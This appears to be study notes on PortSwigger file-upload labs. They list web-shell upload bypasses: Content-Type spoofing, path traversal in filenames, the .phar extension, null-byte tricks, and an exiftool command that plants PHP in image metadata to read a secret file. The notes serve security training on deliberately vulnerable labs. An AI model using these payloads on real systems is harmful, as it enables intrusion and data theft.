 
# File upload vulnerabilities
## Approach
Just do these labs once and you will know how to deal with this vulnerability. Also got really useful links to understand the topic more clear.  
>https://www.cyberhacks200.org/post/file-upload-attacks-explained  
>https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files  

Arises at My-account Avatar upload  
![image](https://user-images.githubusercontent.com/58632878/224724998-ab3628c8-5b4c-4b6e-8893-149e52754c9c.png)  


## Labs
### 1. Web shell upload via Content-Type restriction bypass
```
Change Content-Type to image/jpeg
```

### 2. Web shell upload via path traversal
```
Create web shell with directory traversal in filename (../) and URL encode it (%2e%2e%2f)
Now you can get your file with /files/avatars/../rce2.php
```

### 3. Web shell upload via extension blacklist bypass  
>**ATTENTION:** This is not "correct" method to pass the lab. For "right" method, using .htaccess file, referrer to [Official PortSwigger Method](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass)  
```
.php is blacklisted, but you can set .phar extension
```

### 4. Web shell upload via obfuscated file extension
```
Null byte bypass rce.php%00.jpg
```

### 5. Remote code execution via polyglot web shell upload
>Polyglot PHP/JPG file is an standard Image but with PHP code in metadata.
```
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" lel.jpg -o polyglot.php
```
>https://www.cyberhacks200.org/post/file-upload-attacks-explained  
>https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files

### 6. Admin Panel RFI
>RFI function on target allow the upload of image from remote HTTPS URL source and perform to validation checks, the source URL must be HTTPS and the file extension is checked. Incorrect RFI result in response message, **File must be either a jpg or png**.  
